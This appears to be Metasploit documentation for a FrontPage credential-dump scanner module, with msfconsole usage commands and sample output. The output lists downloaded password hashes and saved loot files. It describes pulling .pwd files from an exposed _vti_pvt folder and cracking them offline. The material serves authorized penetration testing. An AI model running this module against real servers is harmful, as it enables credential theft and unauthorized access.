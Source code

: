 ## Description
When Microsoft FrontPage is run on a non-IIS web server it creates encrypted password files in the _vti_pvt folder. When this folder is accessible, these files can be downloaded and parsed to obtain encrypted passwords. These encrypted passwords can then be cracked offline and used to gain further access to the server.

Affected Files:

 * administrators.pwd
 * authors.pwd
 * service.pwd

Citations:
 * https://msdn.microsoft.com/en-us/library/cc750050.aspx
 * http://sparty.secniche.org/

## Usage
```
use auxiliary/scanner/http/frontpage_credential_dump
set RHOSTS 10.10.10.10
set TARGETURI about
run
```

## Standard Output
```
msf auxiliary(scanner/http/frontpage_credential_dump) > run

[+] 10.10.10.10 - service.pwd
[+] 10.10.10.10 - administrators.pwd
[+] 10.10.10.10 - authors.pwd

FrontPage Credentials
=====================

 Source          Username    Password Hash
 ------          --------    -------------
 Administrators  e-scan.com  xMyvw4d3c1oWY
 Authors         e-scan.com  xMyvw4d3c1oWY
 Service         e-scan.com  jLAsITPJ8AsaR

[*] Credentials saved in: /root/.msf4/loot/20180921124147_default_10.10.10.10_frontpage.creds_096592.txt

```

## Verbose Output
```
msf auxiliary(scanner/http/frontpage_credential_dump) > run

[*] Requesting: /about/_vti_pvt/service.pwd
[*] Found /about/_vti_pvt/service.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - service.pwd
[*] Requesting: /about/_vti_pvt/administrators.pwd
[*] Found /about/_vti_pvt/administrators.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - administrators.pwd
[*] Requesting: /about/_vti_pvt/authors.pwd
[*] Found /about/_vti_pvt/authors.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - authors.pwd

FrontPage Credentials
=====================

 Source          Username    Password Hash
 ------          --------    -------------
 Administrators  e-scan.com  xMyvw4d3c1oWY
 Authors         e-scan.com  xMyvw4d3c1oWY
 Service         e-scan.com  jLAsITPJ8AsaR

[*] Credentials saved in: /root/.msf4/loot/20180921124828_default_10.10.10.10_frontpage.creds_090555.txt
```
